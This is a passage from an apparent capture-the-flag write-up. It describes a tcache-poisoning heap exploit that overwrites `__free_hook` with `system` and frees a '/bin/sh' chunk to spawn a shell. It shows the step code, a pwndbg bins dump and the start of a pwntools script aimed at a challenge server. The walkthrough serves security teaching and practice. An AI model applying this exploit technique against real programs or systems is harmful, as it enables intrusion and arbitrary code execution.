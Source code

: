 Now that I have chunk overhauled, I can put `__free_hook` into tcache using
the `Add`, `Delete` and `Edit` features shown below.  
```  
# tcache poisoning  
Add("c", 3)  
Delete(5)  
Delete(1)  
Edit(14, "d", free_hook)  
```

The following is the state of tcache after executing the above function.  
```  
pwndbg> bins  
tcachebins  
0x20 [100]: 0x604310 —▸ 0x7ffff7dcf8e8 (__free_hook) ◂— 0x0  
```

Finally, I write `/bin/sh` to Price of the 14th chunk, I write the address of
the `system` function to `__free_hook`, and delete the 14th chunk to start the
shell.

```  
# Write system address in __free_hook  
Add("e", u64("/bin/sh\x00"))   # 14  
Add("f", system_addr)

# Start shell  
Delete(14)  
```

I didn't use the `Sell` function.

## Exploit code:  
```python  
from pwn import *

#context(os='linux', arch='amd64')  
#context.log_level = 'debug'

BINARY = './chall'  
elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':  
 HOST = "103.152.242.242"  
 PORT = 39221  
 s = remote(HOST, PORT)  
 libc = ELF("./libc-2.27.so")  
else:  
 s = process(BINARY)  
 libc = elf.libc

def Add(data, price):  
 s.sendlineafter("> ", "1")  
 s.sendlineafter("name: ", data)  
 s.sendlineafter("price: ", str(price))

def Delete(idx):  
 s.sendlineafter("> ", "2")  
 s.sendlineafter("): ", str(idx))

def Edit(idx, data, price):  
 s.sendlineafter("> ", "3")  
 s.sendlineafter("): ", str(idx))  
 s.sendlineafter("name: ", data)  
 s.sendlineafter("price: ", str(price))

```